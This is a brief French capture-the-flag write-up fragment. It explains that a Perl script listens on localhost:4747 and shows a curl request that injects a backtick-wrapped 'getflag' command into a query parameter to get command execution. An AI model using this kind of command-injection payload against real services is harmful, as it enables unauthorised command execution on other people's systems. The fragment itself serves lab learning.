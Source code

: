 Le fichier en perl est accessible a ladresse localhost:4747 comme precise dans le fichier

On lui envoi le parametre getflag
```bash
curl http://localhost:4747?x=\`getflag\`
```